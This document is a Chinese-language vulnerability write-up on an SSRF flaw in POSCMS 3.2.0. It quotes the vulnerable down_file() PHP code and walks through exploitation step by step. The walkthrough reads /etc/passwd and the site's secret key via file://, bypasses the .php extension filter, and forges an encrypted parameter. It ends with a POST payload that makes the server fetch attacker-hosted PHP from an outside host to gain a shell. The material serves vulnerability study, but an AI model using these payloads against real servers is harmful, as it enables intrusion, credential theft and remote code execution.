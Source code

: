 POSCMS 3.2.0 ssrf漏洞getshell
=============================

一、漏洞简介
------------

二、漏洞影响
------------

POSCMS 3.2.0

三、复现过程
------------

打开项目源代码，第一个漏洞的出处在`\diy\module\member\controllers\Api.php`中的`down_file()`函数，内容如下：

    // 文件下载并上传
    public function down_file() {

        /***********************************************************
        * Part0. 获取POST参数url中的内容并解析
        ************************************************************/
        $p = array();
        $url = explode('&', $this->input->post('url'));

        foreach ($url as $t) {
        $item = explode('=', $t);
        $p[$item[0]] = $item[1];
        }

        /***********************************************************
        * Part1. 验证用户权限
        ************************************************************/
        !$this->uid && exit(dr_json(0, fc_lang('游客不允许上传附件')));

        // 会员组权限
        $member_rule = $this->get_cache('member', 'setting', 'permission', $this->member['mark']);

        // 是否允许上传附件
        !$this->member['adminid'] && !$member_rule['is_upload'] && exit(dr_json(0, fc_lang('您的会员组无权上传附件')));

        // 附件总大小判断
        if (!$this->member['adminid'] && $member_rule['attachsize']) {
        $data = $this->db->select_sum('filesize')->where('uid', $this->uid)->get('attachment')->row_array();
        $filesize = (int)$data['filesize'];
        $filesize > $member_rule['attachsize'] * 1024 * 1024 && exit(dr_json(0, fc_lang('附件空间不足！您的附件总空间%s，现有附件%s。', $member_rule['attachsize'].'MB', dr_format_file_size($filesize))));
        }

        /***********************************************************
        * Part2. 解密code参数的值获得扩展、路径等信息
        ************************************************************/    
        list($size, $ext, $path) = explode('|', dr_authcode($p['code'], 'DECODE'));

        /***********************************************************
        * Part3. 生成存放路径
        ************************************************************/    
        $path = $path ? SYS_UPLOAD_PATH.'/'.$path.'/' : SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/';
        !is_dir($path) && dr_mkdirs($path);

        $furl = $this->input->post('file');

        /***********************************************************
        * Part4. 访问并获取文件  
        ************************************************************/
        $file = dr_catcher_data($furl);
        !$file && exit(dr_json(0, '获取远程文件失败'));

        /***********************************************************
        * Part5. 根据扩展名过滤并存储数据  
        ************************************************************/
        $fileext = strtolower(trim(substr(strrchr($furl, '.'), 1, 10))); //扩展名
        $exts = (array)explode(',', $ext);
        !in_array($fileext, $exts) && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));
        $fileext == 'php' && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));

        $filename = substr(md5(time()), 0, 7).rand(100, 999);       //文件名

        /***********************************************************
        * Part6. 向路径写入数据并返回响应结果  
        ************************************************************/
        if (@file_put_contents($path.$filename.'.'.$fileext, $file)) {
            $info = array(
                'file_ext' => '.'.$fileext,
                'full_path' => $path.$filename.'.'.$fileext,
                'file_size' => filesize($path.$filename.'.'.$fileext)/1024,
                'client_name' => '',
            );
            $this->load->model('attachment_model');
            $this->attachment_model->siteid = $p['siteid'] ? $p['siteid'] : SITE_ID;
            $result = $this->attachment_model->upload($this->uid, $info);
            if (is_array($result)) {
                list($id) = $result;
                echo json_encode(array('status'=>1, 'id'=>$id, 'name' => dr_strcut($filename, 10).'.'.$fileext));exit;
            } else {
                @unlink($info['full_path']);
                exit(dr_json(0, $result));
            }
        } else {
            exit(dr_json(0, '文件移动失败，目录无权限（'.$path.'）'));
        }
    }

### 源码分析

这段代码的主要逻辑是**根据请求中参数去请求文件内容，并将它保存在特定目录中，最后以json格式返回保存结果**。

Part1没什么好说的，只要管理员不修改默认权限，注册个普通用户就有视频、图片的上传功能。Part2中`dr_authcode()`是一个加解密函数，位于`\diy\dayrui\helpers\function_helper.php`。其具体实现可以不用关心，毕竟源码已经到手，只要找到密钥，就能随意构造加密结果。

![1.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId25.png)

Part3中确定了下载文件的名称，这里我们请求的参数中不包含`code`参数，使`$PATH为空`，则它会取问号表达式的后半段`SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/'`，最后的上传路径如下：`/uploadfile/年月/`。

![2.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId26.png)

Part4中的`dr_catcher_data()`函数正是SSRF漏洞的来源，其实现位于`\diy\dayrui\helpers\function_helper.php`。无论代码最后选的是fopen模式还是curl模式，开发人员都没有对可解析的协议做限制，也没有校验请求参数`$url`的范围。

![3.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId27.png)

### 寻找触发点

直接用VSCode的全局搜索功能，寻找`down_file()`函数的调用位置：

![4.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId29.png)

发现它出现在了一个js文件中，于是构造一个XHR的POST请求到服务端，设置`file`参数的值使其访问`/etc/passwd`，得到如下响应：

![5.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId30.png)

用浏览器打开"文件存储路径+返回的文件名"：

![6.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId31.png)

### GetShell

再请求一下`/config/system.php`，该文件中存储有重要的元数据。

![7.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId33.png)

这是因为Part5中的`$ext`变量虽然为空，但它专门过滤了.php文件，好在利用`file://`协议的解析特性，可以绕过这一点，比如`.php?.`或`.php#.`：

![8.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId34.png)

再次用浏览器打开并设置编码格式为UTF-8：

![9.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId35.png)

获取到安全密钥后，可以构造特殊payload绕过扩展名检查。这里，总结一下此次GetShell的思路：

1.  构造特殊payload使.html文件允许被上传
2.  在自己控制的服务器上放置.html文件（里面有恶意代码的php代码）
3.  利用SSRF漏洞，使服务器用http协议访问带外数据（OOB），获取到恶意的.html，形成Getshell

为了绕过扩展名检查，我将加密代码拷贝进另一文件并填入密钥，输入选择`1|html,|0`，运行得到输出为`22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，并构造POST参数`file=http://www.0-sec.org/haha.html&url=code=22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，这里的`haha.html`里包含了php代码`<?php echo phpinfo();?>`，最终效果如下：

![10.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId36.png)

![11.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId37.png)

如果这里复现失败了，那大概是在于两点：一、加密函数有时效性，过时需要重新生成；二、CentOS默认安装的Apache无法解析包含php代码的html文件，需要在`/etc/httpd/conf.d/php.conf`中添加如下：

![12.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0ssrf漏洞getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/4858\#toc-1

